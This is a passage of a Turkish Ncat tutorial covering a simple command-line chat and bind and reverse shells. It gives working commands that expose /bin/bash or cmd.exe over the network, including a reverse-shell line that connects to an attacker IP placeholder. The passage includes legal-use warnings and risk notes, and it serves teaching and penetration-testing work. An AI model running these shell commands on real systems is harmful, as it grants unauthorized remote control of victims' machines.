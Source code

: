 **Not:** Bu temel dosya transferi şifresizdir (SSL kullanılmadıkça) ve büyük dosyalar için çok verimli olmayabilir. Ancak küçük dosyalar veya metin tabanlı veriler için hızlı ve pratiktir.

### 4.3 Orta Seviye Ncat Uygulamaları

#### Basit Bir Chat Uygulaması Oluşturma

İki Ncat örneği ile basit bir komut satırı chat uygulaması oluşturabilirsiniz.

*   **Sunucu Tarafı (Birinci Terminal):**
    ```bash
    ncat -vlp 5555
    ```
*   **İstemci Tarafı (İkinci Terminal):**
    ```bash
    ncat -v <sunucu_ip> 5555
    ```
    Şimdi bir terminale yazdığınız her şey diğer terminalde görünecektir. `Ctrl+C` ile bağlantıyı sonlandırabilirsiniz.

#### Shell Bağlantıları (Bind ve Reverse Shell) - DİKKAT!

Ncat, bir makinede komut satırı (shell) başlatıp bunu ağ üzerinden erişilebilir hale getirebilir. Bu, sızma testlerinde ve sistem yönetiminde kullanılabilir ancak **çok ciddi güvenlik riskleri** taşır. **Bu teknikleri sadece yasal ve etik sınırlar içinde, izin aldığınız sistemlerde kullanın!**

*   **Bind Shell (Kurban Dinliyor, Saldırgan Bağlanıyor):**
    Kurban makinede bir port açılır ve bu porta bağlanan kişiye shell erişimi verilir.
    *   **Kurban Makinede (örn: Linux):**
        ```bash
        ncat -lp 4444 -e /bin/bash  # Linux için /bin/bash
        # ncat -lp 4444 -e cmd.exe   # Windows için cmd.exe
        ```
        `-e <komut>` (veya `--exec <komut>`): Bağlantı kurulduğunda belirtilen komutu çalıştırır ve I/O'sunu ağa yönlendirir.
    *   **Saldırgan Makinede:**
        ```bash
        ncat <kurban_ip> 4444
        ```
        Bağlantı kurulduğunda, saldırgan kurban makinede komutları çalıştırabilir.
    **Risk:** Kurban makinede açık bir port bırakır ve kimlik doğrulaması olmadan shell erişimi sağlar. Güvenlik duvarları genellikle dışarıdan gelen bu tür bağlantıları engeller.

*   **Reverse Shell (Saldırgan Dinliyor, Kurban Bağlanıyor):**
    Saldırgan makinede bir port dinlenir ve kurban makine bu porta bağlanarak shell'ini saldırgana sunar. Bu yöntem, kurbanın arkasındaki güvenlik duvarlarını (giden bağlantılara genellikle daha toleranslıdır) aşmak için daha etkilidir.
    *   **Saldırgan Makinede (Dinleyici):**
        ```bash
        ncat -vlp 4444
        ```
    *   **Kurban Makinede (Bağlanan ve Shell'i Sunan):**
        ```bash
        ncat <saldırgan_ip> 4444 -e /bin/bash  # Linux için
        # ncat <saldırgan_ip> 4444 -e cmd.exe   # Windows için
        ```
    **Risk:** Kurban makineden dışarıya yetkisiz bir bağlantı açar. Tespit edilmesi zor olabilir.
